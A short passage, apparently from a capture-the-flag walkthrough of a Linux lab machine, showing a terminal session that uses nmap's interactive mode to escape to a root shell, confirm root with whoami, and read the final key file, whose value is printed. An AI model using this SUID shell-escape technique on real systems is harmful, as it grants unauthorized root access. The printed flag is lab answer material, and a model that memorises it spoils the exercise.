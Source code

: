/bin/which
...


robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
